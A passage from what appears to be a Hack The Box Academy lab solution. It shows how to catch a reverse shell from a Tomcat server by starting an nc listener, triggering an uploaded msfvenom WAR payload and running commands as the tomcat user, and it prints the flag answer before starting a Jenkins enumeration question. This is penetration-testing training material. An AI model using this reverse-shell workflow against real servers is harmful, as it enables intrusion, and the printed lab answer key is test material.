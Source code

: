 ![[HTB Solutions/CPTS/z. images/4d13cfa42f53fb373f4a59f01f81711e_MD5.jpg]]

Thereafter, students need to start an `nc` listener on Pwnbox/`PMVPN`, specifying the same port used in the generated `msfvenom` payload:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.14.6]─[htb-ac413848@htb-f6k4hfqgg8]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Then, students need to click on the recently deployed WAR file so that the reverse-shell session is established:

![[HTB Solutions/CPTS/z. images/fdd932c61a72895bee2b31dcbb574565_MD5.jpg]]

```
Ncat: Connection from 10.129.201.58.
Ncat: Connection from 10.129.201.58:38618.

whoami

tomcat
```

At last, students need to print out the flag file "tomcat\_flag.txt", which is under the directory `/opt/tomcat/apache-tomcat-10.0.10/webapps/`:

```
cat /opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt

t0mcat_rc3_ftw!
```

Answer: `t0mcat_rc3_ftw!`

# Jenkins - Discovery & Enumeration

## Question 1

### "Log in to the Jenkins instance at jenkins.inlanefreight.local:8000. Browse around and submit the version number when you are ready to move on."

After spawning the target machine, students need to make sure that the following `VHost` entry is present in `/etc/hosts`:
